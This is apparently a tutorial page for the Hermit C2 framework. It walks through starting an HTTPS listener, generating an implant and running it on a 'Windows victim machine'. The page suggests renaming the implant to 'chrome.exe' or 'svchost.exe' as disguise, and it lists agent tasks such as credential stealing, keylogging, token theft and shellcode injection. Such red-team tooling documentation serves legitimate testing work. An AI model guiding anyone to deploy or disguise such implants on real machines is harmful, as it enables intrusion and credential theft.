 # Simple Implant Beacon

This page introduces the basic usage of execute the implant beacon on Windows victim machine.  

Assume that you've already installed Hermit.  
If not yet, see [the Installation page](../installation.md) and try [Getting Started](../getting-started.md).

## 1. Start C2 Server

Go to the Hermit project directory then run `./hermit` command.

![hermit server start](../assets/images/terminal/hermit_server_start.png)

In the server console, we can show usage with `help` or `help <command>`.

## 2. Start HTTPS Listener

```sh title="Hermit C2 Server Console"
Hermit > listener new
```

This command sets a new listener URL and run it.  
The IP is set from our local interface by default. The port number is randomly generated.  
If we want to specify our own IP/port, add `--url` flag:

```sh title="Hermit C2 Server Console"
Hermit > listener new --url https://127.0.0.1:1234
```

To list all listeners available, run `listeners` command.

## 3. Generate Implant Payload

`payload gen` command generates a new payload such as **implant**, **loader**, **shellcode**.  
The Wizard will start, so follow the instructions to complete the settings.

![payload gen](../assets/images/terminal/payload_gen_implant_beacon_win_amd64_exe.png)

The implant is saved under `$HOME/.hermit/server/listeners/listener-<name>/payloads/` folder.  

### Transfer the Implant

Transfer the implant (`.exe`) to the Windows target computer.  
At that time, it's recommended to rename the filename because the word "implant" in the file name is too dignified.  
For example, rename it with "chrome.exe", "svchost.exe", etc.

## 4. Execute Implant

On the victim machine, execute the implant as below:  

```ps title="Windows Victim Machine"
# Replace the filename with our own.
.\implant.exe
```

## 5. Switch to Agent Mode

After a few seconds (10~30 seconds by default), the agent checked in and listed on the C2 server.  
We can check the agent listed with the `agents` command.

![agent list](../assets/images/terminal/agent_list.png)

Now switch to Agent Mode by specifying the agent ID (e.g. `1`):

![agent use](../assets/images/terminal/agent_use.png)

## 6. Send Task & Get Result

In Agent Mode, we can send tasks and get results.  
To see what tasks are available, run `?`, `help` or `help <command>` command.  
Currently, the following tasks are available:

```txt title="Hermit C2 Server Console [Agent Mode]"
TASK:
  cat             Read contents of a file.
  cd              Change the working directory.
  connect         Change listener URL to connect.
  cp              Copy a file.
  creds steal     Steal credentials from various resources on the target computer
  dll             Load DLL and inject modules into the specified process
  download        Download a file.
  env ls          List environment variables.
  envs            alias for 'env ls'
  execute         Execute system command.
  group ls        List local groups.
  groups          Alias for 'group ls'
  history         Retrieve information from history files of applications
  ip              Print the network interface information on target computer
  jitter          Set jitter time (seconds) between requests from beacon
  keylog          Keylogging N seconds.
  kill            Terminate the current process.
  killdate        Change killdate (UTC) for the implant beacon.
  ls              List files in a directory.
  migrate         Migrate the implant into another process.
  mkdir           Create a new directory.
  mv              Move a file to a destination location.
  net             Get TCP connections.
  procdump        Dump process memory to a specified output file.
  ps kill         Terminate a process.
  ps ls           List processes.
  pwd             Print the current working directory.
  reg subkeys     Enumerate subkeys for the specified open registry key.
  reg values      Enumerate the specified registry values.
  rm              Remove a file.
  rmdir           Remove a directory.
  rportfwd add    Add settings to reverse port forwarding.
  rportfwd ls     List settings for reverse port forwarding.
  rportfwd rm     Stop and remove listener for reverse port forwarding.
  runas           Execute a program as another user.
  screenshot      Take a screenshot on target computer.
  shellcode       Inject shellcode into the specified process
  sleep           Set sleep time (seconds) between requests from beacon
  token revert    Revert back to the original process token.
  token steal     Steal token from the specified process and impersonate process.
  upload          Upload a file to the target computer.
  user ls         List users.
  users           List all local users.
  whoami          Print the current user information.
```

First, let's try sending the `whoami` task to the agent.  
This task retrieves the username on the victim machine.  

![task send](../assets/images/terminal/task_send_whoami.png)

To see the tasks waiting for results, run the `tasks` command.  

After few seconds, if the task is successful, we can see the task results with the `loot show` command:

```sh title="Hermit C2 Server Console [Agent Mode]"
Hermit [agent-abcd] > loot show
```

Please try other tasks as well.

## 7. Stop Implant & Quit Agent Mode

After enumerations, stop the implant with the `kill` command:

```sh title="Hermit C2 Server Console [Agent Mode]"
Hermit [agent-abcd] > kill
```

Then run `exit` command to quit the agent mode.

## 8. Delete Agent

If we want to delete the agent, run the following command:

```sh title="Hermit C2 Server Console"
Hermit > agent delete 1
```

`1` is the agent ID that can be seen by `agents` command.

## 9. Stop/Delete Listener

Also, if we want to stop and delete the listener, run the following command:

```sh title="Hermit C2 Server Console"
Hermit > listener stop 1
Hermit > listener delete 1
```

`1` is the listener ID that can be seen by `listeners` command.